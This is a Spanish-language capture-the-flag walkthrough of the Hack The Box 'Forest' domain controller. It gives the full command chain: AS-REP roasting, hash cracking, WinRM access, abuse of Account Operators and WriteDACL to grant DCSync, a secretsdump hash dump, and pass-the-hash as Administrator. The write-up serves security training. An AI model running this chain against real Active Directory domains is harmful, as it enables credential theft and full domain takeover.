# Forest

`Forest` en un controlador de dominio de Windows (DC) de dificultad fácil, para un dominio en el que se ha instalado `Exchange Server`. Se descubre que el DC permite enlaces `LDAP` anónimos, que se utilizan para enumerar objetos de dominio. La contraseña de una cuenta de servicio con la autenticación previa `Kerberos` deshabilitada se puede descifrar para obtener un punto de apoyo.

Se descubre que la cuenta de servicio es miembro del grupo Operadores de cuenta, que se puede utilizar para agregar usuarios a grupos privilegiados de `Exchange`. La pertenencia al grupo de `Exchange` se aprovecha para obtener privilegios de `DCSync` en el dominio y volcar los `hashes NTLM`.

<figure><figcaption></figcaption></figure>

## Reconnaissance

Realizaremos un reconocimiento sobre la máquina Forest para encontrar puertos abiertos.

```bash
nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.161 -oG allPorts
```

<figure><figcaption></figcaption></figure>

Lanzaremos unos scripts básicos para ver si encontramos alguna vulnerabilidad en los puertos expuestos.


```bash
nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49666,49667,49671,49676,49677,49684,49706 10.10.10.161 -oN targeted
```


<figure><figcaption></figcaption></figure>

Comprobaremos el nombre del dominio a través del siguiente comando.

```bash
ldapsearch -x -H ldap://10.10.10.161 -s base | grep defaultNamingContext
```

<figure><figcaption></figcaption></figure>

Procederemos a añadir la línea del dominio en el archivo **/etc/hosts** con su respectiva dirección IP.

```bash
catnp /etc/hosts | grep htb.local
```

<figure><figcaption></figcaption></figure>

## RPC Enumeration - Getting valid domain users

Utilizamos **rpcclient** con el comando **enumdomusers** para enumerar los usuarios del dominio en el servidor SMB con IP 10.10.10.161. Este comando permite la conexión anónima y proporciona una lista de usuarios sin necesidad de credenciales.

Redirigiremos el resultado a un archivo llamado "users" y comprobaremos el contenido del archivo.


```bash
rpcclient -U "" 10.10.10.161 -N -c enumdomusers | grep -oP '\[.*?\]' | grep -v "0x4" | tr -d '[]' > users

catnp users
```


<figure><figcaption></figcaption></figure>

## Perform an AS-RepRoast attack with the obtained users

Ejecutamos la herramienta de **impacket-GetNPUsers** con las opciones `-no-pass` y `-usersfile users` para obtener los usuarios que pueden realizar autenticación con Kerberos en el dominio htb.local a través del fichero de los usuarios enumerados.&#x20;

Comprobamos que obtenemos el hash krb5 del usuario "svc-alfresco".


```bash
impacket-GetNPUsers -no-pass -usersfile users htb.local/ 2>/dev/null
```


<figure><figcaption></figcaption></figure>

## Cracking hashes with Hashcat

Nos guardaremos el hash en un archivo llamado "hash.txt"

```bash
catnp hash.txt
```

<figure><figcaption></figcaption></figure>

Con el uso de la herramienta de **hashcat** realizaremosataque de fuerza bruta para obtener la contraseña a través de un diccionario, como rockyou. Finalmente obtenemos que la contraseña para el usuario "svc-alfresco" es "s3rvice".

```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><figcaption></figcaption></figure>

## Flag user.txt

Procederemos a comprobar que con dichas credenciales podemos acceder al WinRIM que hemos encontrado expuesto en la máquina. Comprobamos que efectivamente nos aparece como **Pwn3d**.

```
netexec winrm 10.10.10.161 -u svc-alfresco -p 's3rvice'
```

<figure><figcaption></figcaption></figure>

Procederemos a conectarnos mediante **evil-winrm** y con las credenciales encontradas, comprobamos la flag de **user.txt**.

```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice'
```

<figure><figcaption></figcaption></figure>

## Privilege Escalation

### BloodHound Enumeration with SharpHound

Procederemos a pasarnos al equipo que queremos comprometer el binario de `SharpHound.exe` y a recopilar toda la información del sistema.

```powershell
upload SharpHound.exe

./SharpHound.exe --CollectionMethods All
```

<figure><figcaption></figcaption></figure>

El .zip que nos genere, nos lo descargaremos a nuestra Kali.

```powershell
download 20241026170412_BloodHound.zip
```

<figure><figcaption></figcaption></figure>

### Finding an attack vector in BloodHound

Es hora de elevar nuestros privilegios y obtener acceso de administrador. Volviendo a BloodHound, podemos ver que nuestro usuario, svc-alfresco, es miembro del grupo “Account Operators” que tiene permiso GenericAll en el grupo “Exchange Windows Permissions”.

Con el permiso GenericAll, tenemos todos los derechos sobre el objeto de destino (agregar usuarios a un grupo, restablecer la contraseña del usuario, etc.) y podemos abusar de este permiso débil.

Además, el grupo “Exchange Windows Permissions” tiene permiso WriteDACL en el dominio (htb.local). Esto significa que si creamos un usuario y lo agregamos al grupo “Exchange Windows Permissions”, podríamos darle derechos de acceso DCSync y volcar los hashes de contraseña del controlador de dominio.

<figure><figcaption></figcaption></figure>

### Abusing Account Operators Group - Creating a new user

Abusando de que el usuario **svc-alfresco** se encuentra en el grupo donde podemos crear usuarios, procederemos a añadir un nuevo usuario y hacerlo miembro del grupo "Exchange Windows Permissions"

```bash
net user jr Password01! /add /domain

net group "Exchange Windows Permissions" jr /add
```

<figure><figcaption></figcaption></figure>

### Abusing Account Operators Group - Assigning a group to the newly created user

```bash
net localgroup "Remote Management Users" jr /add
```

<figure><figcaption></figcaption></figure>

Comprobaremos que el usuario se ha creado correctamente y las credenciales funcionan sin problemas.

```
netexec smb 10.10.10.161 -u jr -p 'Password01!' -d htb.local
```

<figure><figcaption></figcaption></figure>

### Abusing WriteDacl in the domain - Granting DCSync Privileges

Primero de todo, procederemos a descargarnos el PowerView en nuestro equipo Kali, lo pasaremos al equipo que queremos comprometer e importaremos el módulo.


```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1

upload PowerView.ps1

Import-Module .\PowerView.ps1
```


<figure><figcaption></figcaption></figure>

Estos comandos le otorga al usuario **jr** el derecho DCSync en el controlador de dominio htb.local, lo que le permite replicar la base de datos del dominio y obtener hashes de contraseñas de otros usuarios.


```powershell
$SecPass = ConvertTo-SecureString 'Password01!' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('htb.local\jr', $SecPass)

Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity jr -Rights DCSync
```


<figure><figcaption></figcaption></figure>

### DCSync Exploitation - Secretsdump.py

Utilizaremos la herramienta de **secretsdump** para bolcar toda la información de las contraseás (hashes) del DC. Comprobamos que hemos obtenido el hash del usuario "Administrator", lo cual podremos hacer un **Pass The Hash**.

```bash
secretsdump.py -just-dc  htb.local/jr@10.10.10.161
```

<figure><figcaption></figcaption></figure>

### PassTheHash

Comprobaremos con **netexec** de conectarnos al WinRM mediante el usuario "Administrator" y el hash que hemos dumpeado con Secretsdump.py.

Comprobamos que nos aparece como **Pwn3d** lo que indica que podemos conectarnos haciendo **PassTheHash** con el usuario Administrator.

```bash
netexec winrm 10.10.10.161 -u Administrator -H '32693b11e6aa90eb43d32c72a07ceea6'
```

<figure><figcaption></figcaption></figure>

Procederemos a conectarnos haciendo **PassTheHash** con el usuario "Administrator" y su respectivo hash y comprobamos que podemos acceder y revisar la flag de **root.txt**.

```bash
evil-winrm -i 10.10.10.161 -u Administrator -H '32693b11e6aa90eb43d32c72a07ceea6'
```

<figure><figcaption></figcaption></figure>
